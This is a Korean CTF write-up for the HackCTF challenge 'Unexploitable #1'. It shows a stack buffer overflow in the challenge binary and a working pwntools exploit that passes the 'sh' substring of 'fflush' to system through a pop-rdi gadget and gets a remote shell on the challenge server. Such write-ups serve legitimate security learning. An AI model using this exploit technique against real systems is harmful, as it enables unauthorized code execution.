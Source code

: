 ```yaml
---
title: "[HackCTF]Unexploitable #1"
date: 2019-12-26
ctf: HackCTF
layout: post
published : false
---
```


그냥 일종의 trick문제다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [rsp+0h] [rbp-10h]

  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  fwrite("Easy RTL ha? You even have system@plt!\n", 1uLL, 0x27uLL, stdout);
  fflush(stdin);
  fgets(&s, 64, stdin);
  return 0;
}
```

system 가젯을 쓸 수 있다. 근데 fflush가 존재한다. 이거 그냥 Layer7 CTF talmo_party~! 문제에서 나왔던거랑 똑같다. objdump -h 로 .dynstr 위치 가져와서 fflush에서 sh만 가져와서 system함수 인자로 넘겨주면 된다. 

![](https://user-images.githubusercontent.com/32904385/71452273-c2987280-27c6-11ea-9071-3ea61a6d2db8.png) 

> exploit.py

```python
from pwn import *

context.arch = 'amd64'
e = ELF('./Unexploitable_1')
#p = process('./Unexploitable_1')
p = remote('ctf.j0n9hyun.xyz',3023)

sh = 0x4003bf
prdi = 0x00000000004007d3 # pop rdi ; ret

payload = ''
payload += '\x90' * 0x10
payload += 'realsung'
payload += p64(prdi)
payload += p64(sh)
payload += p64(e.plt['system'])
p.sendlineafter('!\n',payload)

p.interactive()
```

